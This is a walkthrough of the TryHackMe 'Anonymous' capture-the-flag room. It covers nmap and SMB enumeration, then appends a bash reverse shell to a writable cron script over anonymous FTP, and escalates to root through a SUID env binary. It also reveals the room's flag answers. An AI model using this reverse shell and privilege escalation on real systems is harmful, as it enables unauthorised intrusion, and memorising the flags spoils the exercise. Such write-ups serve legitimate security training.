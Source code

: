 ![Anonymous Banner](https://i.imgur.com/KHhJB15.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/anonymous_Cover.png" alt="Anonymous">
</p>

# [Anonymous](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/anonymous)

In [this](https://tryhackme.com/room/anonymous) room we use our basic Linux and PrivEsc knowledge to gain access to our machine and get root permissions.

More details [here](https://stawm.design.blog/2020/05/21/anonymous-thm-writeup/).

## Pwn

This guide contains the answer and steps necessary to get to them for the [Anonymous](https://tryhackme.com/room/) room. This room is similar to some other room, but I can't remember the name at the moment.

1. Enumerate the machine.  How many ports are open?

   We first scan the machine for any open ports with the following command:
   
   ```cmd
   nmap -sV 10.10.147.121
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>4</details>

2. What service is running on port 21?

   This answer can be found in the previous image.

   ><details><summary>Click for answer</summary>ftp</details>

3. What service is running on ports 139 and 445?

   Both these answers can be seen in the previous image above.

   ><details><summary>Click for answer</summary>smb</details>

4. There's a share on the user's computer.  What's it called?

   We can use smbclient to identify the shares available on the target machine.
   
   ```cmd
   smbclient -NL //10.10.11.32
   ```
   
   ![Smb Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Smb_Shares.png)
      
   To view the contents of this share we can use:
   
   ```cmd
   smbclient -N //10.10.11.32/pics
   ```
   
   ![Smb Share](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Nmap_Smb.png)

   After going through these files, it appears they are just images of some dogs, which have no further use.
   
   ![SMB Files](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Nmap_Smb_Files.png)
   
   ![Images](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Dogs.png)

   ><details><summary>Click for answer</summary>pics</details>

5. user.txt

   From the nmap scan we found we could connect to the machine through anonymous ftp.
   
   ```cmd
   ftp 10.10.75.132
   ```
   
   ![FTP Log In](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Ftp_Log_In.png)
   
   Looking through the files we see three files in a scripts folder which may be of interest.
   
   ![FTP Files](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Ftp_Files.png)
   
   We can download them all to our machine to investigate with `mget *`.
   
   ![FTP Download Files](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Ftp_Download.png)
   
   Looks like the `clean.sh` file is a script that runs periodically to remove some files. This gets stored in the log file. We also note that we have write access to this script. 
   
   ![Removed Files Log](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Removed_Files_Log.png)
   
   Lets find a command for a reverse shell we can add to this files. We can use [pentestmonkeys](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for this.
   
   ![Reverse Shell Command](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Reverse_Shell_Command.png)
   
   We can now append this to the script we downloaded.
   
   ```cmd
   bash -i >& /dev/tcp/10.18.78.136/1337 0>&1
   ```
   
   ![Finished Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Finished_Script.png)
   
   Now all we have to do, is upload the file to the server. Set up a listener and wait for the script to run.
   
   ```cmd
   put clean.sh
   ```
   
   ![FTP Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Ftp_Upload.png)
   
   We can check if the command was added using:
   
   ```cmd
   curl ftp://10.10.75.132/scripts/clean.sh
   ```
   
   ![Check Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Check_Script.png)
   
   Now we setup the listener and wait for the incoming connection to be made.
   
   ```cmd
   nc -nlvp 1337
   ```
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Nmap_Reverse_Shell.png)
   
   Now it is time to navigate to the flag and read its contents.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Nmap_User.png)

   ><details><summary>Click for answer</summary>90d6f992585815ff991e68748c414740</details>

6. root.txt

   In order for us to gain root on this machine we can look for any binaries which have their SUID bit set. 
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![Shell SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Shel_SUID.png)
   
   We can use GTFOBins to look for any binaries which don't need sudo or a password. From this list we can use `/usr/bin/env`.
   
   ![GTFO](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_GTFO.png)
   
   Now we can use this command to get root access on the machine.
   
   ```cmd
   /usr/bin/env bin/bash -p
   ```
   
   ![Root](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Root.png)
   
   After a quick check to verify we are indeed root, we can look at the contents of `root.txt`.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/anonymous/pwn_Root_Flag.png)

   ><details><summary>Click for answer</summary>4d930091c31a622a7ed10f27999af363</details>
